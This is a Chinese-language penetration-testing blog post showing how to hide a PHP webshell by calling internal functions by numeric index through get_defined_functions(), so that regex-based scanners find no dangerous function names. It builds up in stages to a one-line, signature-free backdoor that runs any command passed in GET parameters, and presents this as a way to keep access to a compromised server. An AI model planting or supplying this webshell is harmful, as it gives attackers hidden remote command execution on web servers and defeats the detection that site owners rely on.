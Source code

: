 ```yaml
---
layout:     post
title:      "Using get_defined_functions To Hidden A PHP Backdoor"
subtitle:   "A little record"
date:       2017-08-17
author:     "Urahara"
header-img: "img/4eff2c041976ea22afb7092a53188c70.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - webshell


---
```




webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。

关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。

![func_arry](http://reverse-tcp.xyz/img/get_defined_functions/func_arry.png)

以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：

```php
<?php
function callfunc() {

    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
    $args = func_get_args();  //获取传入参数值
    $func_id = array_shift($args);  //获取传入的函数所代表的list key
    $func_name = $func['internal'][$func_id];  //以key来索引函数名

    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
}
print callfunc(460, "whoami");
?>
```

这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行

![callfunc](http://reverse-tcp.xyz/img/get_defined_functions/callfunc.png)

按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样

```php
<?php
function callfunc() {

    $func = get_defined_functions();
    $args = $func['internal'][3]();
    $func_id = $func['internal'][805]($args);
    $func_name = $func['internal'][$func_id];

    return $func['internal'][556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

当然也可以是这样

```php
<?php
function callfunc() {

    $func = get_defined_functions()['internal'];
    $args = $func[3]();
    $func_id = $func[805]($args);
    $func_name = $func[$func_id];
    return $func[556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可

```php
<?php
function f() {

    $a = get_defined_functions()['internal'];
    $s = $a[3]();
    $b = $a[805]($s);
    $c = $a[$b];
    return $a[556]($c, $s);
}
print f(460, 'whoami');
?>
```

**无特征webshell**

最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。

```php
<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
```

![wenshell](http://reverse-tcp.xyz/img/get_defined_functions/webshell.png)

